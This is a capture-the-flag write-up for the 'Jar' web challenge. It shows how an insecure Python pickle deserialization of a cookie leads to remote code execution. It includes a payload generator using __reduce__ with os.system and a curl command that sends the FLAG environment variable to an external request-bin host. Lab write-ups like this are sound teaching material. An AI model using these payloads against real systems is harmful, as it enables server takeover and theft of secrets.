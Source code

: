 # Jar

## Challenge:

My other pickle challenges seem to be giving you all a hard time, so here's a [simpler one](https://jar.2021.chall.actf.co/) to get you warmed up.

## Solution:

We’re given a link to the web application, the Python source code, and a picture of a pickle. The hint points to the [documentation for the Python pickle module](https://docs.python.org/3/library/pickle.html), a clue that this application is vulnerable to insecure deserialization.

The site shows a single form input with an “Add Item” button. Whatever we submit is appended to the page. Looking at the source code, we can see that the `contents` cookie is used to store these submissions.

On a post request, the `contents` cookie is Base64 decoded and then deserialized and stored in an array. The new item is added, the array is serialized, and then the cookie is reencoded and set in the browser. When we visit the page, the `contents` cookie is decoded and deserialized and the objects are used to generate the text boxes around the page.

We should be able to generate our own pickled payload, set it as the `contents` cookie, and convince the application to deserialize the cookie and execute our code.

There’s a good write-up [here](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) with a script to generate an exploit. Unfortunately, everything we try seems to result in a `500` error. Using a trick discovered [here](https://r3billions.com/writeup-pickle-store/), we can try `sleep 5` to confirm that our code is getting executed on the server:

```
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ("sleep 5")
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

That gives us the payload `gASVIgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAdzbGVlcCA1lIWUUpQu`. If we set that as our cookie and refresh the page, we see that it does indeed take 5 seconds to load. Now we just need to exfiltrate our flag.

Using another trick from that same write-up, we can try to `curl` an endpoint with our output. We can use our own server, or a [request bin](https://requestbin.com/), to receive the payload.

We can see in the source code that the flag is stored in an environment variable. Let’s update our exploit:

```
cmd = ("curl https://en1rz2m58frpb.x.pipedream.net/`echo $FLAG`")
```

If we give that a try, we immediately see a response on our request bin:

<img src="flag.png" alt="Server-side flag forgery." width="600">

And there's our flag: `actf{you_got_yourself_out_of_a_pickle}`.
